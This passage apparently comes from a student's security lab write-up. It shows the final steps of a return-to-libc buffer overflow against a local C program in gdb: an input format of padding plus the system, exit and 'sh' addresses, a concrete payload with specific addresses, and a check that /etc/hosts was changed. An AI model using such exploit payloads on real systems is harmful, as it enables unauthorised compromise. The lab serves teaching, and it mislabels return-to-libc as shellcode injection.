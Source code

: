 All `system`, `exit` and `sh` memory address were printed and can be seen in the upper screenshot.

## 7. Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on linux with Environment Variable:

Format of input attack are:

`r $(python -c "print(20 * 'a' + 'system_memory_address' + 'exit_memory_address' + 'sh_memory_address')")`

So in my case, the input is:

```sh
r $(python -c "print(20 * 'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x25\xdf\xff\xff')")
```

Then stop gdb with `q`.

## 8. Check the `/etc/hosts`:

```sh
cat /etc/hosts
```

![after](./img/after.png)

The `127.1.1.1 google.com` is added after all the attack, can be seen in the red box on the screenshot.

>![before](./img/before.png)\
>p/s the upper screenshot is `/etc/hosts` before the attack.

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection.

# Task 2: Attack on the database of Vulnerable App from SQLi lab
